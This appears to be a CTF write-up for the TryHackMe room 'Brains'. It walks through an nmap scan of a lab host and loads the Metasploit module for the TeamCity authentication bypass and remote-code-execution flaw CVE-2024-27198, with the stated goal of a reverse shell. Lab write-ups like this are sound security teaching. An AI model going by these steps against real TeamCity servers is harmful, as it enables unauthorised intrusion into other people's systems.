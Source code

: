 ![Nmap Scan](Theme%20Brains.JPG)
# brains-writeup-thm
Write-up for TryHackMe room Brains

> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

# RED exploit the server!
# 1. First Step in the Terminal "nmap -p- <Target_IP_Address>"

```bash
nmap -p- 10.10.252.192
````
# "nmap" -> The network scanner tool
# "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
# "<Target_IP_Address>" -> The IP address of the target — in the case of the Brains room
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)

# What ports are open and why they matter: 
# 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
# 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
# 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.

2. What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability
# The most interesting one here is Port 50000: even though it's labeled ibm-db2, it actually runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).
```bash
msfconsole
```
# "msfconsole" -> This launches the Metasploit interface.

```bash
search teamcity
```
# "search teamcity" -> This will list available exploit modules related to TeamCity
#  Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198

#  Use the module:
```bash
use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
```


